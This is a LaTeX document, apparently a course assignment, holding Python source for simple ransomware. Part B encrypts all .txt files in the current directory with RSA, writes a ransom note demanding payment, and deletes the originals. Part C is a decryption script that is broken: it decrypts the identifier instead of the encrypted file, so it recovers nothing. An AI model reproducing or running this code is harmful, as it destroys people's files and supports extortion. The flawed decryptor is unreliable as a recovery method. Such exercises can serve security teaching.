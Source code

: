 \documentclass{article}
\begin{document}
\subsubsection*{Part B}

\begin{lstlisting}[language=Python]
import os
import sys
from Crypto.Hash import SHA256
from Crypto.PublicKey import RSA
from Crypto.Signature import PKCS1_v1_5
from Crypto.Cipher import PKCS1_OAEP

if __name__ == "__main__":
    public_key = RSA.import_key(open("e.key").read())
    count = 0

    # Read each file in the current directory that ends with .txt and encrypt it
    for file in os.listdir():
        if file.endswith(".txt"):
            # Read the file
            file_in = open(file, "rb")
            message = file_in.read()
            file_in.close()
    
            # Encrypt the file
            encryptor = PKCS1_OAEP.new(public_key)
            encrypted = encryptor.encrypt(message)
    
            # Write the encrypted file
            file_out = open(file + ".encrypted", "wb")
            file_out.write(encrypted)
            file_out.close()
    
            # Write the note
            file_out = open(file + ".note", "w")
            file_out.write("This is a ransom note. Pay $100 to get your file back.")
            file_out.close()
    
            # Write a unique identifier number to the file
            file_out = open(file + ".ID", "w")
            file_out.write(str(count))
            file_out.close()
    
            # Delete the original file
            os.remove(file)
            count += 1
\end{lstlisting}

\newpage
\subsubsection*{Part C}

\begin{lstlisting}[language=Python]
import os
import sys
from Crypto.Hash import SHA256
from Crypto.PublicKey import RSA
from Crypto.Signature import PKCS1_v1_5
from Crypto.Cipher import PKCS1_OAEP

if __name__ == "__main__":
    file_in = open("d.key", "rb")
    private_key = RSA.import_key(file_in.read())
    file_in.close()

    # Read the identifier input
    identifier = sys.argv[1]
    
    # Decrypt the identifier
    decryptor = PKCS1_OAEP.new(private_key)
    
    # Find the file with the identifier
    for file in os.listdir():
        if file.endswith(".ID"):
            file_in = open(file, "r")
            message = file_in.read()
            file_in.close()
            if message == identifier:
                # Decrypt the identifier
                decrypted = decryptor.decrypt(message)
                print(decrypted)
                break
\end{lstlisting}
\end{document}

